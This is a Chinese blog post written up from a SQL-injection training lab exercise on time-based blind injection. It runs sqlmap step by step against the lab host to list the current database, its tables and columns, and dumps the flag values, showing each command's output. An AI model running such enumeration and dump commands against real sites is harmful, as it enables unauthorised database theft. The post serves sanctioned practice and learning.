 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习 - 时间盲注
categories: [安全, SQL注入]
description: 掌控安全 SQL 注入靶场练习 - 时间盲注
keywords: SQL注入, SQLMAP
---
```


# 掌控安全 SQL 注入靶场练习 - 时间盲注

SQL 时间盲注

## 0x01 使用 SQLMAP 工具

### 0x01.1 dump database

```bash
./sqlmap.py -u http://injectx1.lab.aqlab.cn:81/Pass-10/index.php?id=1 --current-db
```

**执行结果**

```
current database: 'kanwolongxia'
```

### 0x01.2 dump tables

```bash
./sqlmap.py -u http://injectx1.lab.aqlab.cn:81/Pass-10/index.php?id=1 -D kanwolongxia --tables

```

**执行结果**

```
Database: kanwolongxia
[3 tables]
+--------+
| user   |
| loflag |
| news   |
+--------+
```

> 3 tables: user, loflag, news

### 0x01.3 dump columns

```bash
./sqlmap.py -u http://injectx1.lab.aqlab.cn:81/Pass-10/index.php?id=1 -D kanwolongxia -T loflag --columns
```

**执行结果**

```
Database: kanwolongxia
Table: loflag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flaglo | varchar(255) |
| Id     | int(11)      |
+--------+--------------+
```

### 0x01.4 dump values

```bash
./sqlmap.py -u http://injectx1.lab.aqlab.cn:81/Pass-10/index.php?id=1 -D kanwolongxia -T loflag -C flaglo --dump

```

**执行结果**

```
Database: kanwolongxia
Table: loflag
[5 entries]
+----------------+
| flaglo         |
+----------------+
| zKaQ-Moren     |
| zKaQ-QQQ       |
| zKaQ-RD        |
| zKaQ-time-hj   |
| zKaQ-time-zxxz |
+----------------+
```
